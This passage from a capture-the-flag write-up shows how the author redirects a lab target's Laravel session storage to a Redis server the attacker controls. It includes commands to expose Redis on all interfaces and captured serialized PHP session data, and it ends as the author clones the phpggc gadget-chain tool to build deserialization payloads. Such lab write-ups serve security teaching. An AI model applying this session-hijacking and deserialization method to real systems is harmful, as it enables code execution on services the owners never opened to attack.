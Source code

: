 It's worth noting that this config change gets reset pretty quickly,
which is likely some kind of cleanup script to allow for multiple
players to exploit this at the same time on the same host.

#### Configure Redis

I'll need a copy of a Redis server locally to exploit this. I'll install
it with `sudo apt install redis-server -y` . I don't want this to run
regularly, so I'll stop and disable the service
(`sudo systemctl stop redis-server` and
`sudo systemctl disable redis-server`), and run it in the foreground
from the command line. I'll start the server with `--protected-mode no`
so that it listens on more than just local host:



    oxdf@hacky$ redis-server --protected-mode no
    95298:C 29 Jun 2022 16:49:58.756 # oO0OoO0OoO0Oo Redis is starting oO0OoO0OoO0Oo
    95298:C 29 Jun 2022 16:49:58.756 # Redis version=5.0.7, bits=64, commit=00000000, modified=0, pid=95298, just started
    ...[snip]...



Now it's listening on all interfaces:



    oxdf@hacky$ sudo netstat -tnlp | grep 6379
    tcp        0      0 0.0.0.0:6379            0.0.0.0:*               LISTEN      95298/redis-server  
    tcp6       0      0 :::6379                 :::*                    LISTEN      95298/redis-server



I'll connect to this server, and see there are no keys:



    oxdf@hacky$ redis-cli 
    127.0.0.1:6379> keys *
    (empty list or set)



If I re-poison the `.env` (it's timed out by now), and then refresh the
login page in the private window, there's now a session cached:



    127.0.0.1:6379> keys *
    1) "laravel:rBjWQbicKo0nDt7IRC2jVI8kG0wReZuEfH7stO34"
    127.0.0.1:6379> get "laravel:rBjWQbicKo0nDt7IRC2jVI8kG0wReZuEfH7stO34"
    "s:197:\"a:3:{s:6:\"_token\";s:40:\"R53GMtfMIuQmJIF3YtfQO31InoSm4faU3FtZmGJ9\";s:9:\"_previous\";a:1:{s:3:\"url\";s:39:\"http://status.catch.htb:8000/auth/login\";}s:6:\"_flash\";a:2:{s:3:\"old\";a:0:{}s:3:\"new\";a:0:{}}}\";"



I'll recognize that result as a serialized PHP object.

#### POC

[PHP Generic Gadget Chains](https://github.com/ambionics/phpggc), or
`phpggc`, is a tool for creating serialized attack payloads. I'll
`git clone` it into my `/opt` directory.
